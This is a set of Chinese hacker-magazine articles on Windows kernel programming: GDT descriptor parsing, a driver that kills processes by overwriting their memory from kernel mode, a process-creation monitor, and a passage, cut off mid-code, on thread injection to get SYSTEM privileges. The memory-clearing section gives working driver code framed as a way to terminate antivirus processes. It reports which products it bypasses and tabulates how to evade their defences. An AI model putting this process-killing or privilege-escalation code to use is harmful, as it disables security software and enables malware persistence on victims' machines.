

图1

#### 进一步确定描述符类型

```c
#pragma pack(1)
typedef struct _GENERAL_DESC
{
    unsigned int unknown1;
    unsigned char unknown2;
    unsigned char type: 4;
    unsigned char system: 1;
    unsigned char dpl: 2;
    unsigned char present: 1;
    unsigned short unknown3;
} GENERAL_DESC, *PGENERAL_DESC;
#pragma pack()
```

以上unknownX字段并非真的是未知字段，而是这些字段对于每个描述符的意义不同，故在这个表达所有描述符共性的数据结构中用unknownX来表示。从这个结构可以看出，所有描述符共有的字段是type、system、dpl、present，其中system字段是对描述符进行分类的重要依据。

由以上分析可以看出，我们能够根据system的值来确定描述符所属的分类，但是依然不能确定描述符具体的类型。比如我们知道某个描述符是普通描述符，但却仍然不知道它是数据段描述符，还是代码段描述符。怎么进一步确定描述符的类型呢？看看上面的数据结构，我们可以利用type域来进一步判断描述符的类型。具体是怎么判断的呢？文字不容易表述，还是通过图表来说明吧，看完之后就会有豁然开朗的感觉，如图2（普通描述符的type域）和图3（系统描述符的type域）所示。

| Decimal | 11 | 10 | 9 | 8 | Descriptor Type | Description |
|---|---:|---:|---:|---:|---|---|
| 0-7 | 0/1 bit patterns |  |  |  | Data | Read-Only / Read-Write / expand-down / accessed |
| 8-15 | 1 bit patterns |  |  |  | Code | Execute-Only / Execute-Read / conforming / accessed |

（图2上半部分：非系统段type字段与描述对应表）

图2

| Decimal | 11 | 10 | 9 | 8 | Description |
|---|---:|---:|---:|---:|---|
| 0 | 0 | 0 | 0 | 0 | Reserved |
| 1 | 0 | 0 | 0 | 1 | 16-Bit TSS (Available) |
| 2 | 0 | 0 | 1 | 0 | LDT |
| 3 | 0 | 0 | 1 | 1 | 16-Bit TSS (Busy) |
| 4 | 0 | 1 | 0 | 0 | 16-Bit Call Gate |
| 5 | 0 | 1 | 0 | 1 | Task Gate |
| 6 | 0 | 1 | 1 | 0 | 16-Bit Interrupt Gate |
| 7 | 0 | 1 | 1 | 1 | 16-Bit Trap Gate |
| 8 | 1 | 0 | 0 | 0 | Reserved |
| 9 | 1 | 0 | 0 | 1 | 32-Bit TSS (Available) |
| 10 | 1 | 0 | 1 | 0 | Reserved |
| 11 | 1 | 0 | 1 | 1 | 32-Bit TSS (Busy) |
| 12 | 1 | 1 | 0 | 0 | 32-Bit Call Gate |
| 13 | 1 | 1 | 0 | 1 | Reserved |
| 14 | 1 | 1 | 1 | 0 | 32-Bit Interrupt Gate |
| 15 | 1 | 1 | 1 | 1 | 32-Bit Trap Gate |

（图3：系统段/门描述符type字段与描述对应表）

图3

```c
...
"LDT", // 02
"16-Bit TSS( Busy )", // 03
"16-Bit Call Gate", // 04
"Task Gate", // 05
"16-Bit Interrupt Gate", // 06
"16-Bit Trap Gate", // 07
"Reserved", // 08
"32-Bit TSS( Available )", // 09
"Reserved", // 10
"32-Bit TSS( Busy )", // 11
"32-Bit Call Gate", // 12
"Reserved", // 13
"32-Bit Interrupt Gate", // 14
"32-Bit Trap Gate" // 15
};
```

以上数组里每个字符串的索引与type字段的值是一致的，这样，在程序中便可以根据type字段的值轻松地得到描述符的类型了。

#### 解析其他字段的含义

通过以上部分，我们已经把某个描述符究竟是属于哪一个类型搞清楚了，这样我们就可以确定8字节的描述符数据结构中其他字段的含义了。由于每种类型的描述符这些字段的含义是不同的，所以这些数据结构需要分开来一一定义。这些定义都包含在随书光盘中附带的源代码386.h文件里了，由于把它们全部列出来太长，所以这里只对数据段和代码段描述符的结构进行介绍。

现在知道如何判断描述符的类型了吧？我们可以先取得system域的值，然后根据它的值从以上两个表中选择对应的表，由这些表便可以查出描述符的类型了。为了在编写程序的时候比较方便，我特意依据以上的表定义了两个字符串数组。

```c
char* NonSystemType[16] =
{
"Data < Read-Only >", // 00
"Data < Read-Only, accessed >", // 01
"Data < Read//Write >", // 02
"Data < Read//Write, accessed >", // 03
"Data < Read-Only, expand-down >", // 04
"Data < Read-Only, expand-down, accessed >", // 05
"Data < Read//Write, expand-down >", // 06
"Data < Read//Write, expand-down, accessed >", // 07
"Code < Execute-Only >", // 08
"Code < Execute-Only, accessed >", // 09
"Code < Execute//Read >", // 10
"Code < Execute//Read, accessed >", // 11
"Code < Execute-Only, conforming >", // 12
"Code < Execute-Only, conforming, accessed >", // 13
"Code < Execute//Read-Only, conforming >", // 14
"Code < Execute//Read-Only, conforming, accessed >" // 15
};
char* SystemType[16] =
{
"Reserved", // 00
"16-Bit TSS( Available )", // 01
...
```

```c
// format of code and data segment descriptor
#pragma pack(1)
typedef struct _CODE_DATA_SEGMENT_DESC
{
    unsigned char limit_0_7;
    unsigned char limit_8_15;
    unsigned char base_0_7;
    unsigned char base_8_15;
    unsigned char base_16_23;
    unsigned char type: 4;
    unsigned char system: 1;
    unsigned char dpl: 2;
    unsigned char present: 1;
    unsigned char limit_16_19: 4;
    unsigned char avl: 1;
    unsigned char l: 1;
    unsigned char d_b: 1;
    unsigned char granularity: 1;
    unsigned char base_24_31;
} CODE_DATA_SEGMENT_DESC,
*PCODE_DATA_SEGMENT_DESC;
#pragma pack()
```

其实根据这些字段的名字就可以看出它们的含义了。简单解释如下：`limit_0_7`字段代表段的边界值的0位至7位，剩下的`limit_X_X`就不用解释了；`base_0_7`字段代表段的基地址的0位至7位，剩下的`base_X_X`也不用解释了；`granularity`字段表示边界值采用的单位（有1Byte和4KB两种）；`dpl`字段表示访问这个段需要的最低权限（也就是多少Ring）；`present`字段表示描述符对应的段是否在物理内存中。有了这些字段的含义，我们就能在确定了描述符的类型后，进一步解析其含义了。

#### 动手写代码

通过以上的分析，我们已经基本摸清了解析GDT表中的描述符的原理和方法，所以现在可以着手写代码了。下面贴出我编的代码，大家也可以自己动手练习一下。由于前面已经分析得很详细了，所以这里就不再过多解释了。

```c
NTSTATUS
DriverEntry(
    IN PDRIVER_OBJECT DriverObject,
    IN PUNICODE_STRING RegistryPath
    )
{
    GDTR gdtr;
    PGENERAL_DESC GDT;
    ULONG NumDesc;
    ULONG index;
    __asm sgdt gdtr
    GDT = (PGENERAL_DESC)gdtr.BaseAddr;
    NumDesc = (gdtr.limit + 1) / SIZEOF_DESC;
    for (index = 0; index < NumDesc; index++) {
        unsigned char *Byte;
        Byte = (unsigned char *)&GDT[index];
        DbgPrint("DumpGDT: %02x %02x %02x %02x %02x %02x %02x %02x",
                 Byte[0], Byte[1], Byte[2], Byte[3],
                 Byte[4], Byte[5], Byte[6], Byte[7]);
        DbgPrint("DumpGDT: index:\t\t%04d", index);
        if (GDT[index].present == 0) {
            DbgPrint("DumpGDT: unused");
            continue;
        }
        if (GDT[index].system == 1) { // code and data segment descriptor
            PCODE_DATA_SEGMENT_DESC code_data_desc =
                (PCODE_DATA_SEGMENT_DESC)&GDT[index];
            ULONG BaseAddr = FOUR_BYTE_TO_DWORD(
                code_data_desc->base_0_7,
                code_data_desc->base_8_15,
                ...);
```

```c
            code_data_desc->base_16_23,
            code_data_desc->base_24_31);
            ULONG limit = TWENTY_BIT_TO_DWORD(
                code_data_desc->limit_0_7,
                code_data_desc->limit_8_15,
                code_data_desc->limit_16_19);
            DbgPrint("DumpGDT: type:\t\t%s", NonSystemType[code_data_desc->type]);
            DbgPrint("DumpGDT: BaseAddr:\t0x%08x", BaseAddr);
            if (code_data_desc->granularity == 1) {
                DbgPrint("DumpGDT: size:\t\t%d * 4kb", (limit + 1));
            } else {
                DbgPrint("DumpGDT: size:\t\t%d * 1byte", (limit + 1));
            }
            DbgPrint("DumpGDT: dpl:\t\t\t%d", code_data_desc->dpl);
        } else { // system descriptor
            DbgPrint("DumpGDT: type:\t\t%s", SystemType[GDT[index].type]);
            if (GDT[index].type == 12) { // 32-Bit Call Gate
                PCALL_GATE_DESC call_gate = (PCALL_GATE_DESC)&GDT[index];
                ULONG offset = TWO_SHORT_TO_DWORD(
                    call_gate->offset_0_15,
                    call_gate->offset_16_31);
                DbgPrint("DumpGDT: selector:\t0x%04x", call_gate->selector);
                DbgPrint("DumpGDT: offset:\t\t0x%08x", offset);
                DbgPrint("DumpGDT: param_count:\t%d", call_gate->param_count);
                DbgPrint("DumpGDT: dpl:\t\t%d", call_gate->dpl);
            }
        }
    } // end for
    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

最后说明一下随文附带的驱动程序的测试方法。首先打开DebugView来监视调试信息，然后使用加载器加载`DumpGDT.sys`，便可以在DebugView里面看到驱动程序输出的经过解析的GDT数据。

终于把怎么枚举GDT表叙述了一遍，这样自己的知识就得到了巩固，也希望大家能从中有所收获。文中可能存在一些错误，还请发现问题的朋友不吝赐教。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、内核、进程



### 内核清零杀进程

文/小华子

对于进程的防杀，无论是病毒还是杀软，几乎是时刻关注的！在杀软的保护中，各大杀软的保护理念各不相同。有的注重抵御来自用户层的攻击，内核层的保护处于上层，这种保护思路的确有它的优势，保证了系统的稳定和内核的安全，但也有致命的弱点，就是病毒一旦进入内核，自身的安全也就没了保障！有的注重内外兼修，用户层的保护不必说，内核层的保护则是越来越深入，都到了`KiInsertQueueApc`的钩子了，估计就差`PspExitThread`了！保护是没的说，就是进入了内核，想要恢复被挂钩的代码，也没有想的那么容易啊！

最近重写了炉子的通过内存清零的技术来关闭进程的代码，一直佩服他的思路，但是随着杀软的不断改进，大多数的杀软都修补了这个Bug！想想，如果内存清零用在内核中，难道还用恢复那些被挂钩很深的钩子吗？这也是本文的核心所在——在内核中清零杀进程。有人也许会说了，杀软始终会检测是不是有驱动加载，这还能有用吗？我在这里要说的是：学技术不是为了破坏，不是要你去关了杀软！社工学也不能成功吗？真的有绝对的安全吗？呵呵，废话不说了，还是看看实现细节和代码吧！

为了使我们的程序不被安全软件防范，使用的系统函数当然还是越少越好！不过，本文只对思路进行提示，实现时还是调用了系统函数。因为现在还没有多少杀软防范，这个可以在代码中体现，因为这种检测可能存在困难。至少，我们可以实现其中的大部分系统函数的功能。

```c
NTSTATUS KillProcessByKernelMemClear(HANDLE m_process_id)
{
    PEPROCESS m_process;
    NTSTATUS status = STATUS_SUCCESS;
    KAPC_STATE m_kapc_state;
    ULONG m_index=0;
    BOOLEAN m_is_valid;
    PVOID m_base_address=NULL;
    m_base_address=ExAllocatePoolWithTag(NonPagedPool,0x1000,'Read');
    memset(m_base_address,0xcc,0x1000);
    if(m_base_address==NULL)
    {
        DbgPrint("ExAllocatePoolWithTag 函数调用失败!\n");
        return STATUS_UNSUCCESSFUL;
    }
    status=PsLookupProcessByProcessId(m_process_id,&m_process);
    if(!NT_SUCCESS(status))
    {
        DbgPrint("PsLookupProcessByProcessId 函数调用失败!\n");
        return status;
    }
    KeStackAttachProcess(m_process,&m_kapc_state);
    for(m_index=0;m_index<0x80000000;m_index+=0x1000)
    {
        if(MmIsAddressValid((PVOID)(m_index)))
        {
            __try
            {
                RtlCopyMemory((PVOID)(m_index),m_base_address,0x1000);
            }
```

```c
...
}
__except(1)
{
    //DbgPrint("异常地址:0x%x\n", m_index);
    continue;
}
}
else
{
    //DbgPrint("地址无效:0x%x\n", m_index);
    if (m_index > 0x1000000)
    {
        break; // 这儿也没有再继续下去的必要了
    }
}
KeUnstackDetachProcess(&m_kapc_state); // 这是用到的第6个函数
return status;
}
```

试吧！或许是我测试的安全软件版本太旧，总之，江民2009可以躲过，其他的似乎都没有防范（卡巴另当别论）。但这一特点似乎使得 RkU 无法在装有该杀软的系统上运行，原因似乎是江民在对 PspCidTable 表的访问上进行了处理，因为本身 RkU 在做进程检测时会直接遍历 PspCidTable，我自己试图遍历 PspCidTable 时，也同样出现了蓝屏问题。

最后，这里再提出一下杀软该如何防范和我们的代码该如何改进的建议。

| 杀软如何防范 | 代码如何改进 |
|---|---|
| Hook PsLookupProcessByProcessId 及更深 | 直接遍历 PspCidTable 得到 |
| Hook KeStackAttachProcess | 自己实现将目标进程的页目录指针放入 CR3 |
| 清除/保护 PspCidTable 表 | 只要我们能检测到进程的 EPROCESS 就行了，方法很多 |

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

虽然代码很简单，但功能却异常强大。对于常规的内核函数的挂钩，都显得黯然失色！至于功能的演示，大家还是针对源代码进行测试吧！

前置知识：VC  
关键词：编程、内核、进程监控

## 内核模式：监控实现进程监控

文／图 友狐 [iCoodle]

在使用冰刃的时候，我们可以发现它有一个“监视进线程创建”的功能，这个功能挺有用的，在用户模式下我们可以注册一个 Shell 钩子来监视，或者通过挂钩一些进程创建的 Win32 API 来实现。

在内核模式下，我们同样可以使用 API Hook 来实现，但还有一些简单的做法，比如我们下面要介绍的 PsSetCreateProcessNotifyRoutine 函数。

它通过向系统注册一个回调例程便可以轻松获得关于进程创建、终止的信息。虽然这种方法很多大牛都不屑使用，但对于我们新手学习内核编程入门还是很有帮助的。

与它类似的函数还有 PsSetCreateThreadNotifyRoutine、PsSetLoadImageNotifyRoutine，用法大同小异，因此我们仅以 PsSetCreateProcessNotifyRoutine 为例来学习。

#### 关于 PsSetCreateProcessNotifyRoutine

在 DDK 的帮助文档里是这样介绍这个函数的：PsSetCreateProcessNotifyRoutine adds a driver-supplied callback routine to, or removes it from, a list of routines to be called whenever a process is created or deleted.

从上面可以看出，这个函数不仅可以向系统中注册一个回调例程，该例程在有进程被创建或结束的时候会被调用，而且这个函数还可以从系统中删除我们注册的回调例程（这个很重要，真的！）。我们先看一下这个函数的原型声明。

```c
NTSTATUS
PsSetCreateProcessNotifyRoutine(
    IN PCREATE_PROCESS_NOTIFY_ROUTINE NotifyRoutine,
    IN BOOLEAN Remove
    );
```

可以看出它的参数很简单，第1个参数指定了要添加/删除的回调例程，第2个参数表明了是要添加还是删除这个例程。跟它不太一样的是，PsSetCreateThreadNotifyRoutine 和 PsSetLoadImageNotifyRoutine 函数都只有一个参数，它们的删除操作另有函数，比如 PsRemoveCreateThreadNotifyRoutine。

下面我们来看一下进程回调例程的定义。

```c
VOID
(*PCREATE_PROCESS_NOTIFY_ROUTINE)(
    IN HANDLE ParentId,
    IN HANDLE ProcessId,
    IN BOOLEAN Create
    );
```

它有3个参数，第1个参数指明了父进程的 ID，第2个参数是进程本身的 ID，最后一个参数指明了该进程是刚刚执行了创建还是结束操作。

有人可能会问，进程 ID 怎么会是 HANDLE 类型呢？别问我，DDK 的帮助文档里就是这么写的。其实 HANDLE 与 DWORD 一样，在本质上都是个32位的整数，因此这样定义是没什么问题的。

当我们注册了一个回调例程以后，如果发生了进程创建、结束的事件，系统就会调用该回调例程，这时就可以通过参数2和3分别得到进程的 PID 和创建/结束信息。我们可以在回调例程中简单地将这些信息打印出来，或者通知应用层的程序，这就涉及了驱动程序与应用层程序的通信问题，下面进行介绍。

#### 关于驱动程序与应用层程序的通信

在多数情况下，我们可以通过调用 ReadFile / WriteFile 或 DeviceIoControl 函数从驱动程序中读写信息，关于它们的详细使用方法这里就不赘述了。

在调用上述3个 Win32 API 时，分别会产生3个与之对应的 IRP，即 IRP_MJ_READ、IRP_MJ_WRITE 和 IRP_MJ_DEVICE_CONTROL，我们只要在驱动程序中进行相应的响应处理即可。

在多数情况下，我们都是使用 DeviceIoControl 函数，它需要定义一个 IOCTL，需要在驱动程序和应用层程序之间共享，因此较好的做法是使用一个专门的头文件来进行定义。在定义 IOCTL 的时候，需要注意使用哪种 I/O 方式，常见的做法是使用缓冲区 I/O，这时需要将我们创建的设备对象的 Flags 设置为 DO_BUFFERED_IO，即“deviceObject->Flags |= DO_BUFFERED_IO;”。因为在我使用的这个 EasySys 生成的驱动框架中，没有明确将设备对象的读写方式设置为缓冲区 I/O 或直接 I/O，这样它就会使用默认的其他 I/O 方式，而起初我没有考虑到这一点，因而造成了蓝屏后果。

另外，我们的驱动程序和应用层程序之间必须实现同步，这可以通过事件对象来解决，否则我们要么只能在 Ring3 建立一个线程不停地尝试读取数据，要么让驱动先把信息保存起来，隔一段时间去读取一次，这样都不是好的做法。

事件对象既可以在应用层创建，也可以在驱动中创建，全在于我们的喜好。

#### 代码分析

下面我们来分析代码，首先需要定义一些变量，还要将一些重要的变量添加为驱动程序的 DEVICE_EXTENSION 字段（在驱动中要尽量避免使用全局变量）。

```c
typedef struct _DEVICE_EXTENSION {
    HANDLE hProcessHandle; // 事件对象句柄
    PKEVENT ProcessEvent;  // 用户和内核通信的事件对象指针

    HANDLE hParentId;      // 在回调函数中保存进程信息
    HANDLE hProcessId;
    BOOLEAN bCreate;
} DEVICE_EXTENSION, *PDEVICE_EXTENSION;
```

我们现在要做的事情是，在 DriverEntry 例程中创建一个事件对象并将其句柄保存起来，然后设置回调例程。对了，不要忘记设置 I/O 方式。因为我们定义的 IOCTL 是使用的缓冲区 I/O，因此这里也要设置成缓冲区 I/O 方式，相关代码如下：

```c
deviceObject->Flags |= DO_BUFFERED_IO; // 创建符号链接与分发 IRP 的代码是自动生成的，不用考虑

// 保存设备对象指针
// 这里我们不得不使用全局变量 g_pDeviceObject，
// 我们在回调例程中需要用它得到 DEVICE_EXTENSION 以获得相关信息
g_pDeviceObject = deviceObject;

// 创建事件对象与应用层通信
RtlInitUnicodeString(&ProcessEventString, EVENT_NAME);
deviceExtension->ProcessEvent = IoCreateNotificationEvent(&ProcessEventString, &deviceExtension->hProcessHandle);
KeClearEvent(deviceExtension->ProcessEvent); // 设置为无信号状态

// 设置回调例程
Status = PsSetCreateProcessNotifyRoutine(ProcessCallback, FALSE);
```

下面我们来看一下回调例程，在这里我们仅仅是将得到的 PID 等信息保存到了驱动设备的 DEVICE_EXTENSION 结构中。

```c
VOID
ProcessCallback(
    IN HANDLE ParentId,   // 父进程ID
    IN HANDLE ProcessId,  // 发生事件的进程ID
    IN BOOLEAN Create     // 进程是创建还是终止
)
{
    // 获得 DEVICE_EXTENSION 结构
    PDEVICE_EXTENSION deviceExtension = (PDEVICE_EXTENSION)g_pDeviceObject->DeviceExtension;

    // 保存信息
    deviceExtension->hParentId = ParentId;
    deviceExtension->hProcessId = ProcessId;
    deviceExtension->bCreate = Create;

    // 触发事件，通知应用程序
    KeSetEvent(deviceExtension->ProcessEvent, 0, FALSE);
    KeClearEvent(deviceExtension->ProcessEvent);
}
```

从上述代码可以看到，我们在保存完信息后，就通过触发事件来通知应用层程序有新的进程创建/结束事件发生。这时候应用程序就会向驱动发送一个 IRP 来获取信息。下面我们来看一下处理 IRP 的过程。

```c
pCallbackInfo = Irp->AssociatedIrp.SystemBuffer;
outBufLength = irpStack->Parameters.DeviceIoControl.OutputBufferLength;
ioControlCode = irpStack->Parameters.DeviceIoControl.IoControlCode;

switch (ioControlCode)
{
case IOCTL_PROC_MON:
    KdPrint(("[ProcMon] IOCTL: 0x%x", ioControlCode));
    if (outBufLength >= sizeof(CALLBACK_INFO))
    {
        pCallbackInfo->hParentId = deviceExtension->hParentId;
        pCallbackInfo->hProcessId = deviceExtension->hProcessId;
        pCallbackInfo->bCreate = deviceExtension->bCreate;
        Irp->IoStatus.Information = outBufLength;
    }
    break;

default:
    Status = STATUS_INVALID_PARAMETER;
    Irp->IoStatus.Information = 0;
    break;
}
```

在得到 IRP 后，我们直接修改它的 Irp->AssociatedIrp.SystemBuffer 就可以使应用层程序得到相应的改变。至于 IRP 的其他处理，比如 Irp->IoStatus.Information、Status 等也很重要，这些都是我们必须掌握的。

上面都是驱动程序的代码，下面我们来看一下应用层程序的代码。

```c
#include "windows.h"
#include "winioctl.h"
#include "stdio.h"
#include "../inc/ioctls.h"

#define SYMBOL_LINK "\\\\.\\ProcMon"

int main()
{
    CALLBACK_INFO cbkinfo, cbktemp = {0};

    // 打开驱动设备对象
    HANDLE hDriver = ::CreateFile(
        SYMBOL_LINK,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("打开驱动设备对象失败!\n");
        return -1;
    }

    HANDLE hProcessEvent = ::OpenEventW(SYNCHRONIZE, FALSE, EVENT_NAME);
    while (::WaitForSingleObject(hProcessEvent, INFINITE) == WAIT_OBJECT_0)
    {
        DWORD dwRet;
        BOOL bRet;
        bRet = ::DeviceIoControl(hDriver, IOCTL_PROC_MON, NULL, 0, &cbkinfo, sizeof(cbkinfo), &dwRet, NULL);
        if (bRet)
        {
            if (cbkinfo.hParentId != cbktemp.hParentId ||
                cbkinfo.hProcessId != cbktemp.hProcessId ||
                cbkinfo.bCreate != cbktemp.bCreate)
            {
                if (cbkinfo.bCreate)
                    printf("有进程被创建，PID = %d\n", cbkinfo.hProcessId);
                else
                    printf("有进程被终止，PID = %d\n", cbkinfo.hProcessId);

                cbktemp = cbkinfo;
            }
        }
        else
        {
            printf("\n获取进程信息失败!\n");
            break;
        }
    }

    ::CloseHandle(hDriver);
    return 0;
}
```

事情到这里好像就结束了，但是先别着急，我们还有很重要的一件事情没做：忘了在驱动的卸载例程中删除我们注册的回调例程。如果不这样做的话，当动态卸载驱动后，我们的回调例程已经不存在了，但操作系统不知道，仍然尝试在有进程创建/结束事件发生时通知它，这时候访问该地址就有很大的可能造成蓝屏。避免的方法很简单：在驱动的卸载例程中添加一句如下所示的代码即可。

```cpp
// 卸载回调例程
PsSetCreateProcessNotifyRoutine(ProcessCallback, TRUE);
```

现在我们就可以查看测试效果了，因为没有在应用层程序中动态加载驱动，所以这里需要先使用一些辅助工具进行加载，我用的是 KmdManager。当把驱动加载成功后，就可以运行应用层程序了，测试效果如图1所示。

图1

但是这个程序有个缺点，就是应用层程序在运行的时候很占资源，CPU 使用率经常会达到 50%，改进的任务就交给大家完成吧。（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

上述代码的思路是：通过符号链接打开驱动设备，然后打开在内核创建的事件对象（通过名字），循环调用 WaitForSingleObject 来获取事件，一有事件发生就通过调用函数 DeviceIoControl 发送一个 IOCTL_PROC_MON 来获取信息。在这里我们使用了两个变量，主要是为了过滤一些实际上没有真正发生改变的信息。

最后我们看一下在驱动程序和应用层程序之间共享的 ioctls.h 头文件。

```cpp
#ifndef IOCTLS_H
#define IOCTLS_H

// 定义 IOCTL
#define FILE_DEVICE_PROCMON 0x8000
#define PROCMON_IOCTL_BASE  0x800

#define CTL_CODE_PROCMON(i) \
    CTL_CODE(FILE_DEVICE_PROCMON, \
             PROCMON_IOCTL_BASE + (i), \
             METHOD_BUFFERED, \
             FILE_ANY_ACCESS)

#define IOCTL_PROC_MON CTL_CODE_PROCMON(0)

// 定义事件对象名称
#define EVENT_NAME L"\\BaseNamedObjects\\ProcEvent"

typedef struct _CallbackInfo {
    HANDLE  hParentId;
    HANDLE  hProcessId;
    BOOLEAN bCreate;
} CALLBACK_INFO, *PCALLBACK_INFO;

#endif
```

前置知识：Delphi

关键词：编程、注入、权限

### 线程注入实现 System 权限


文／Fireworm

记得很久以前看过一篇文章，讲的是在 CMD 下通过改变 Explorer 进程，从而获得 System 权限。获得 System 权限之后，能够享受很多特权，比如删除一些原本不能删除的文件或者注册表项。相比于 Admin 权限，有了不少好处。只是每次都要通过 CMD 来进入 System 权限，如果仅仅是为了创建一个 System 权限的进程，这样未免小题大做了，所以用一个程序来替我们做这些事情是再好不过的了。

首先，SeDebug 的特权是不能少的，具体实现代码如下：

```asm
push eax
invoke CloseHandle, hToken
pop eax
ret
_EnablePrivilege endp
```

接下来则是通过 Toolhelp API 枚举进程列表，找到一个具有 System 权限的进程，并返回进程信息，然后利用线程注入的方式，使目标程序继承 System 权限。

```asm
_EnablePrivilege proc szPriv:DWORD, bFlags:DWORD
LOCAL hToken
LOCAL tkp : TOKEN_PRIVILEGES
invoke GetCurrentProcess
mov edx, eax
invoke OpenProcessToken, edx, TOKEN_ADJUST_PRIVILEGES or TOKEN_QUERY, addr hToken
invoke LookupPrivilegeValue, NULL, szPriv, addr tkp.Privileges.Luid
; 查找进程权限
mov tkp.PrivilegeCount, 1
xor eax, eax
.if bFlags
    mov eax, SE_PRIVILEGE_ENABLED
.endif
mov tkp.Privileges.Attributes, eax
invoke AdjustTokenPrivileges, hToken, FALSE, addr tkp, 0, 0, 0
; 成功获得权限
```

```asm
_GetPidFromProcName proc lpProcName:DWORD
LOCAL stProcess : PROCESSENTRY32
LOCAL hSnapshot
LOCAL dwProcessID
mov dwProcessID, 0
invoke RtlZeroMemory, addr stProcess, sizeof stProcess
mov stProcess.dwSize, sizeof stProcess
invoke CreateToolhelp32Snapshot, TH32CS_SNAPPROCESS, 0
mov hSnapshot, eax
invoke Process32First, hSnapshot, addr stProcess
; 由第一个进程开始枚举
.while eax
    invoke lstrcmpi, lpProcName, addr stProcess.szExeFile
    .if eax==0
        mov eax, stProcess.th32ProcessID
        ; 找到目标进程之后利用寄存器进行传值
        mov dwProcessID, eax
        .break
    .endif
    invoke Process32Next, hSnapshot, addr stProcess
.endw
invoke CloseHandle, hSnapshot
mov eax, dwProcessID
ret
_GetPidFromProcName endp
```

最后，为了方便，我使用了一个单独的 asm 文件来进行命令行参数的数量分析和取参数。这里简单说一下，_argc 的作用是对命令行参数进行数量统计，而对应的 _argv 则是取某个命令行参数。

```asm
_getopt proc par:DWORD
sub esp,128h
; 在堆栈当中留出局部变量的空间
invoke _argc
; 调用上述函数
cmp eax,2h
jnz _usage
; 如果参数不正确则跳转
